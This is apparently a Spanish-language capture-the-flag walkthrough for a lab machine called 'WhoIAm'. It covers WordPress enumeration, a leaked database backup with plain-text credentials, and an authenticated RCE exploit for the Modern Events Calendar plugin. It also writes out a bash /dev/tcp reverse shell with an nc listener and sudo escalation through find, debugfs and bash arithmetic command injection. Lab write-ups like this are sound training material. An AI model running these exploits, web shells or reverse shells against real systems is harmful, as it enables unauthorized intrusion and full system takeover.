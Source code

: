 # Máquina WhoIAm

---

Dificultad -> Facil



---



Primero, realizamos un escaneo con nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.18.0.2
------------------------------------------------------------
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Whoiam
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: WordPress 6.5.4
MAC Address: 02:42:AC:12:00:02 (Unknown)
```



Vemos que hay un Apache el puerto 80 asi que nos metemos a la página web

<img title="" src="assets/83ce9410705c21748eb0f62f1d6bc923a49dd546.png" alt="" width="566">



En esta solo vemos un texto y un boton que no hace nada  y en el codigo fuente no hay nada importante asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/wp-content           (Status: 301) [Size: 313] [--> http://172.18.0.2/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://172.18.0.2/]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 314] [--> http://172.18.0.2/wp-includes/]
/wp-login.php         (Status: 200) [Size: 4039]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 311] [--> http://172.18.0.2/wp-admin/]
/backups              (Status: 301) [Size: 310] [--> http://172.18.0.2/backups/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.18.0.2/wp-login.php?action=register]
/server-status        (Status: 403) [Size: 275]

```

Encontramos varios directorios con los que se puede identificar que la pagina esta echa con WordPress asi que procedo ha hacer un escaneo con wpscan

```shell
wpscan -e p,vt,cb,u --url 172.18.0.2
```

Mirando el escaneo podemos encontrar dos usuarios, erik y developer y un plugin vulnerable, modern-events-calendar-lite:




```shell
[i] Plugin(s) Identified:
[+] modern-events-calendar-lite
 | Location: http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'


```

Con searchsploit, busco posiles exploits para esa version de ese plugin y encuentro un remote code, pero me pide unas credenciales

```shell
searchsploit modern-events-calendar-lite 5.16.2
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)                                  | php/webapps/50084.py
Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)                           | php/webapps/50082.py
----------------------------------------------------------------------------------------------------------------- --------------------------------
```

Buscando en los directorios encontrados anteriormente encuentro que en /backups existe una copia de seguridad de la base de datos que se puede descartar y dentro de esta obtengo las credenciales del usuario developer

![](assets/2025-10-24-19-51-15-image.png)

```shell
| Username  |         Password        |
|-----------|-------------------------|
| developer | 2wmy3KrGDRD%RsA7Ty5n71L^|
|-----------|-------------------------|
```

Con estas credenciales, descargo y ejecuto el exploit anteriormente encontrado

```shell
searchsploit -m php/webapps/50082.py
```

```shell
python 50082.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Al ejecutar el exploit nos dice que se a subido una shell a /wp-content/uploads/shell.php

![](assets/2025-10-24-19-55-02-image.png)

Desde aqui nos mandamos una reverse shell con:

```shell
bash -c 'bash -i >& /dev/tcp/172.18.0.1/4444 0>&1'
```

Mientras que escuchamos en nuestra maquina con

```shell
nc -lvnp 4444
```

Hacemos [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) para operar con mas facilidad 



Buscamos posibles binarios y encontramos que podemos ejecutar find como el usuario rafa

![](assets/2025-10-24-20-01-02-image.png)

Nos metemos a [GTFOBins](https://gtfobins.github.io/) , buscamos el binario find y lo ejecutamos como rafa:

```shell
sudo -u rafa find . -exec /bin/sh \; -quit
```

Volvemos a buscar posibles binarios y vemos que podemos escalar a ruben con el binario debugf

![](assets/2025-10-24-20-05-59-image.png)

Volvemos a buscar en [GTFOBins]([https://gtfobins.github.io/](https://gtfobins.github.io/)) y ejecutamos el binario como ruben

```shell
sudo -u ruben debugfs
!/bin/sh
```

Buscamos binarios por tercera vez y por fin encontramos un archivo que podemos ejecutar como root

![](assets/2025-10-24-20-10-14-image.png)

Viendo que no podemos editar de ninguna forma el script, investigando un poco encontre que se puede usar Bash eq para escalar en privilegios usando a[$(comando&2)] asi que ejecuto el archivo como sudo y le introduzco un /bin/bash

![](assets/2025-10-24-20-16-17-image.png)

y finalmente acabamos siendo root.
